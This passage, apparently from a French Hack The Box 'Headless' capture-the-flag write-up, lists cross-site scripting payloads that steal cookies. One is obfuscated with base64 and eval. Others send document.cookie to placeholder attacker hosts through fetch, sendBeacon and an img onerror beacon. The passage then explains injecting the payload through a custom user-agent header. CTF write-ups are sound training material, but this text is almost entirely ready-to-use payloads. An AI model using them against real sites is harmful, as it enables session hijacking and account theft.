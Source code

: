 ```bash
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Nous allons choisissait la commande suivante
```bash
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```
Nous allons changer notre user-agent pour un user-agent de google afin que le serveur puisse accepter notre requête, on crée un nouvel agent avec qui se nomme xss avec comme string la commande xss 
![User-agent](../assets/uploads/2024/2024-htb-headless/d.png)
